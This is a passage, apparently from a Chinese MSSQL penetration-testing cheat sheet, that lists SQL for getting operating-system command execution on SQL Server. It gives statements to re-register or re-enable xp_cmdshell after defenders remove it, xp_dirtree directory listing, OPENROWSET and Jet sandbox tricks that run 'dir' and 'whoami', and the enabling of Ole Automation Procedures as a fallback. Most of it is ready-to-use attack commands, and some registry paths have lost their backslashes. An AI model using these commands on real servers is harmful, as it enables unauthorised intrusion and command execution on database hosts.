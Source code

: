 2. 无法装载 DLL xpsql70.dll 或该DLL所引用的某一 DLL。原因126（找不到指定模块。）

恢复方法：
```sql
EXEC sp_dropextendedproc "xp_cmdshell"
EXEC sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

3. 无法在库 xpweb70.dll 中找到函数 xp_cmdshell。原因: 127(找不到指定的程序。)

恢复方法：
```sql
exec sp_dropextendedproc 'xp_cmdshell'
exec sp_addextendedproc 'xp_cmdshell','xpweb70.dll'
```

4. SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用 'xp_cmdshell'。有关启用 'xp_cmdshell' 的详细信息，请参阅 SQL Server 联机丛书中的 "外围应用配置器"。

恢复方法：
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
#### xp_dirtree
获取文件信息,可以列举出目录下所有的文件与文件夹
参数说明:目录名,目录深度,是否显示文件 
```sql
execute master..xp_dirtree 'c:' 
execute master..xp_dirtree 'c:',1 
execute master..xp_dirtree 'c:',1,1
```
#### OPENROWSET
OPENROWSET 在MSSQL 2005及以上版本中默认是禁用的.需要先打开:
激活语句
```sql
EXEC sp_configure 'show advanced options', 1; 
exec sp_configure RECONFIGURE; 
exec SP_CONFIGURE 'Ad Hoc Distributed Queries', 1; 
exec sp_configure RECONFIGURE;
```
```sql
SELECT * FROM OPENROWSET('SQLOLEDB', '数据库地址';'数据库用户名';'数据库密码', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
```
这种攻击是需要首先知道用户密码的
#### 沙盒
开启沙盒：
```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWAREMicrosoftJet4.0Engines','SandBoxMode','REG_DWORD',1
执行命令:
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:windowssystem32iasdnary.mdb','select shell("whoami")')
```
#### SP_OACREATE
其实xp_cmdshell一般会删除掉了,如果xp_cmdshell 删除以后，可以使用SP_OACreate
需要注意的是这个组件是无回显的,你可以把他直接输出到web目录下的文件然后读取
激活命令
```sql
EXEC sp_configure 'show advanced options', 1; 
exec sp_configure RECONFIGURE; 
exec sp_configure 'Ole Automation Procedures', 1; 
exec sp_configure RECONFIGURE;
```